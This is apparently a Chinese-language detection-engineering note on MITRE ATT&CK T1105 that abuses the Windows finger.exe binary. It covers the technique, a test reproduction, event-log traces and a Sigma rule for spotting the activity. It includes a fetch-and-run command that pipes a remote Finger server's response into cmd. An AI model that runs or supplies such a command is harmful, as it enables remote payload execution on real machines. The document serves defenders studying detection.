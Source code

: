 # T1105-win-入口工具转移-# Finger.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例

Finger.exe显示有关正在运行Finger服务或守护程序的指定远程计算机（通常是运行UNIX的计算机）上的一个或多个用户的信息。 远程计算机指定用户信息显示的格式和输出。 不带参数使用，手指显示帮助。

**路径:**

```yml
-   c:\windows\system32\finger.exe
-   c:\windows\syswow64\finger.exe
```

从远程Finger服务器下载有效载荷(Payload)。 此示例连接到“example.host.com”，询问用户“user”； 结果可能包含由cmd进程执行的恶意shellcode。

```yml
finger user@example.host.com | more +2 | cmd
```

用例：下载恶意负载
所需权限：用户
操作系统：Windows 8.1、Windows 10、Windows 11、Windows Server 2008、Windows Server 2008R2、Windows Server 2012、Windows Server 2012R2、Windows Server 2016、Windows Server 2019、Windows Server 2022

## 检测日志

windows安全日志

## 测试复现

Windows 10 测试

```yml
C:\Users\liyang>Finger.exe

显示与运行手指服务的指定系统上某个用户有关
的信息。输出因远程系统而异。

FINGER [-l] [user]@host [...]

  -l        以长列表格式显示信息。
  user      指定需要其信息的用户。省略 user 参数
            将显示与指定主机上所有用户有关的信息。
  @host     指定需要其用户信息的远程系统上的服务器。

C:\Users\liyang>finger user@example.host.com | more +2 | cmd
Microsoft Windows [版本 10.0.18363.418]
(c) 2019 Microsoft Corporation。保留所有权利。
```

## 测试留痕

```log
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x2c8

新进程名称: C:\Windows\System32\finger.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0xc78

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: finger  user@example.host.com
```

## 检测方法/思路

参考Sigma官方规则:

```yml
title: Finger.exe Suspicious Invocation

id: af491bca-e752-4b44-9c86-df5680533dbc

description: Detects suspicious aged finger.exe tool execution often used in malware attacks nowadays

author: Florian Roth, omkar72, oscd.community

date: 2021/02/24

references:

- https://twitter.com/bigmacjpg/status/1349727699863011328?s=12

- https://app.any.run/tasks/40115012-a919-4208-bfed-41e82cb3dadf/

- http://hyp3rlinx.altervista.org/advisories/Windows_TCPIP_Finger_Command_C2_Channel_and_Bypassing_Security_Software.txt

tags:

- attack.command_and_control

- attack.t1105

logsource:

category: process_creation

product: windows

detection:

selection:

Image|endswith: '\finger.exe' #单纯的对进程名称进行检测

condition: selection

falsepositives:

- Admin activity (unclear what they do nowadays with finger.exe)

level: high
```

### 建议

从Sigma给出的规则来看，更多的是对进程和命令行参数进行监测，只要出现其中一个命令参数即告警。

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

Finger.exe

<https://lolbas-project.github.io/lolbas/Binaries/Finger/>

Finger使用方法

<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/ff961508(v=ws.11)>

Sigma: win_susp_finger_usage

<https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_finger_usage.yml>
